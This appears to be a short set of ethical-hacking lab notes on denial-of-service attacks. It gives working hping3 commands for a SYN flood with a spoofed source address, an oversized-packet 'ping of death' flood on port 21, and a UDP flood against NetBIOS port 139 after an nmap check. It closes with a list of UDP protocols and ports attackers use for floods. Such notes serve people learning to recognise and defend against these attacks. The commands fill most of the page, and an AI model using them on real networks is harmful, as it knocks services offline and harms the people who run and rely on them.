SYN-attack

![1](https://github.com/Kr1shna02/hack-flow/assets/117007783/7654cca6-7cdf-44da-8d66-7dd70cdba58d)

- -S: sets the SYN flag; 
- -a: spoofs the IP address; 
- -p: specifies the destination port;
- --flood: sends a huge number of packets.
![2](https://github.com/Kr1shna02/hack-flow/assets/117007783/a7fc8bd1-7e1e-44f0-af1a-ef9aac90aa90)

 PoD attack -In ping we send huge data

command ```hping3 -d 65538 -S -p 21 --flood (Target IP Address)```
- -d: specifies data size;
- -S: sets the SYN flag;
- -p:destination port;
- --flood: sends a huge number of packets.
In wireshark in target machine we can check for the large packet flow.

 UDP application layer flood attack

 Scan the target

 ```nmap -p 139 (Target IP Address)```
  we will use NetBIOS port 139 to perform a UDP application layer flood attack. If 139 port is open start attack.

   Command ```hping3 -2 -p 139 --flood (Target IP Address)```
- -2:specifies UDP mode

Some of the UDP based application layer protocols that attackers can employ to flood target networks include:

+ CharGEN (Port 19)
+ SNMPv2 (Port 161)
+ QOTD (Port 17)
+ RPC (Port 135)
+ SSDP (Port 1900)
+ CLDAP (Port 389)
+ TFTP (Port 69)
+ NetBIOS (Port 137,138,139)
+ NTP (Port 123)
+ Quake Network Protocol (Port 26000)
+ VoIP (Port 5060)
